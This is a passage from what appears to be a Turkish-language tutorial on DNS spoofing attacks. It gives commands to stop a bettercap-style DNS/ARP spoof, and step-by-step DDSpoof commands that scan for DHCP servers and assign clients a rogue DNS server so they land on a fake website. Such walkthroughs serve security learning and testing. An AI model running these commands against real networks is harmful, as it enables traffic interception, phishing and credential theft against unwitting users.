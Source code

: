 

5. **Web Sunucusunu Başlatma:**

   - Apache’yi başlatın ve sahte web sayfasını `/var/www/html/` dizinine yerleştirin.



6. **Saldırıyı Sonlandırma:**

   - Saldırıyı durdurmak için: `dns.spoof off; arp.spoof off`



**Kaynak:**,[](https://medium.com/%40sebastienwebdev/dns-spoofer-f337bb85c567)[](https://le-guide-du-secops.fr/2020/04/28/attaque-dns-spoofing-theorie-et-mise-en-pratique/)



---



#### **5. DDSpoof ile DHCP DNS Spoofing**

DDSpoof, DHCP protokolünü kullanarak DNS spoofing yapmak için özel bir araçtır. DHCP sunucularını manipüle ederek DNS kayıtlarını spoof eder.



**Adımlar:**

1. **DDSpoof Kurulumu:**

   - DDSpoof’u GitHub’dan indirin: `git clone https://github.com/akamai/ddspoof`

   - Gerekli bağımlılıkları yükleyin: `pip install -r requirements.txt`



2. **Ağ Taraması:**

   - Ağdaki DHCP sunucularını tespit edin:

     ```

     sudo python3 ddspoof.py --interface eth0 --scan

     ```



3. **DHCP DNS Saldırısı:**

   - DHCP sunucusunu spoof etmek için:

     ```

     sudo python3 ddspoof.py --interface eth0 --dns 192.168.1.100

     ```

   - Bu, istemcilere sahte DNS sunucusu IP’si atar.



4. **Sahte Web Sitesi Kurulumu:**

   - Apache veya başka bir web sunucusunu kullanarak sahte bir siteyi barındırın.
